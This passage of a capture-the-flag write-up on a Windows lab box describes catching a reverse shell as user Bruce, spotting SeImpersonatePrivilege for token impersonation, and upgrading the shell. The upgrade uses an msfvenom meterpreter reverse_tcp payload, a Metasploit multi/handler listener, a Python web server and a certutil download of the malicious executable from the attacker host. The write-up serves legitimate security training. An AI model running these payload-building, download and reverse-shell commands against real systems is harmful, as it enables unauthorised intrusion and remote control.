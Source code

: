 ### *Run the script and get your reverse shell*

As the title says, press `Run` on the script console and wait for the reverse shell to come in!

![alt text](https://i.imgur.com/9Tdt4iG.png "We are in!")

Bingo! We are in as Bruce, a low privileged user and got the user flag!

![alt text](https://i.imgur.com/LPBoY00.png "user.txt proof")

## **Step 4 : POST-EXPLOITATION**

### *Basic enumeration*

After unsuccessfully attempting to run both winPEAS.exe and PowerUp.ps1, I resorted to manual checks. The privesc way seems to be to impersonate a token by abusing the SeImpersonatePrivilege, which allows us to do **token impersonation**:

![alt text](https://i.imgur.com/ym1KHfU.png "Running whomami /priv")

### *Upgrading our shell*

Before we attempt to privesc, and in line with the box's page, let's upgrade our shell.

#### Create the malicious executable

On the attacker VM, run the following command:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai  LHOST=[YOUR_TUN0] LPORT=[PORT] -f exe -o revshell.exe`

Since we don't want conflicting ports, make sure to use a **different LPORT** than the one you used for the initial reverse shell.

#### Setting up the multi/handler listener

1. Open up metasploit (`msfconsole`)
2. `use multi/handler`
3. Set up the options (`LHOST`, `LPORT`)
4. Set up the payload (`set payload windows/meterpreter/reverse_tcp`)
5. Run it! `run`

#### Get the malicious executable on the target machine and execute it

Put your newly created `revshell.exe` in an appropriate directory. Then, spin up a webserver (`python -m SimpleHTTPServer 80`) from that directory.

Next, get back to your shell as Bruce and cd to his desktop : `cd c:\Users\bruce\Desktop`. This way, we are sure he has rwx rights.

Now, get the malicious executable on this machine! `certutil -urlcache -f http://<YOUR_TUN0>/revshell.exe revshell.exe`.
